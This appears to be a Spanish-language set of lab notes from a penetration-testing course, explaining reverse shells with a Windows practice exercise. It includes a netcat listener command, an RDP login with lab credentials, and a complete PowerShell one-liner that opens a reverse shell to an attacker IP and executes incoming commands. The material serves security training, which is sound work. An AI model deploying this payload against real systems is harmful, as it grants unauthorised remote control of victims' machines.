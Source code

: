 
Con una reverse shell, nuestro equipo de ataque tendrá un "listener" ejecutándose y será el objetivo quien iniciará la conexión.

Frecuentemente utilizamos este tipo de shell cuando encontramos sistemas vulnerables, ya que es probable que un administrador pase por alto las conexiones salientes, lo que nos brinda una mayor probabilidad de permanecer sin ser detectados.

## Práctica con una Reverse Shell Simple en Windows
ponemos un Puerto de nuestro equipo en escucha

```shell-session
ougicami@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

si no conectamos al sistema usando *rdesktop* podemos tener un escritorio remoto de la maquina donde podemos observar entonces un entorno windows para practicar, aqui pondre nuestra carga

```bash
rdesktop -u htb-student -p HTB_@cademy_stdnt! 10.129.36.45
```



![[Pasted image 20241107140653.png]]

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.17.48',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```
con esto hara una reverse shell a nuestro equipo

![[Pasted image 20241107140241.png]]


